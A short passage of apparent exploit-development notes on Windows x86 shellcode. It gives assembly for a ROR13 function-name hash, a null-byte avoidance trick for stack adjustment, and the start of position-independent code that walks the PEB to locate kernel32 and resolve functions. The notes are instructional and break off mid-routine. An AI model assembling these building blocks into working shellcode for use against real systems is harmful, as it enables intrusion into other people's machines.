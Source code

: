 #### Assembly

```
" compute_hash: " 
" xor eax, eax ;"
" cdq ;"
" cld ;"
" compute_hash_again: " 
" lodsb ;"
" test al, al ;"
" jz compute_hash_finished ;" 
" ror edx, 0x0d ;"
" add edx, eax ;" 
" jmp compute_hash_again ;" 
" compute_hash_finished: " 
```

In order to avoid null bytes, instructions like `sub esp, 0x200` can be replaced with adding a large value that achives the same:

```
? 0x0 -0x204
Evaluate expression: -516 = fffffdfc

sub esp, 0x204 == add esp, fffffdfc
```

### Position Independent Shellcode

Basic idea is to find address of shellcode in memory and use that for calculations.

```python
CODE = (
" start: "
"  int3 ;"
"  mov ebp, esp ;" 
"  add esp, 0xfffffdfc ;" 

" find_kernel32: " 
"  xor ecx, ecx ;" 
"  mov esi,fs:[ecx+30h] ;"
"  mov esi,[esi+0Ch] ;" 
"  mov esi,[esi+1Ch] ;"

" next_module: "
"  mov ebx, [esi+8h] ;"
"  mov edi, [esi+20h] ;"
"  mov esi, [esi] ;" 
"  cmp [edi+12*2], cx ;" 
"  jne next_module ;" 

" find_function_shorten: " 
"  jmp find_function_shorten_bnc ;" 

" find_function_ret: "
"  pop esi ;" # ret addr, start of find_function
"  mov [ebp+0x04], esi ;" 
"  jmp resolve_symbols_kernel32 ;"

" find_function_shorten_bnc: "
"  call find_function_ret ;" # rel call

" find_function: "
"  pushad ;" 
"  mov eax, [ebx+0x3c] ;"
"  mov edi, [ebx+eax+0x78] ;"
```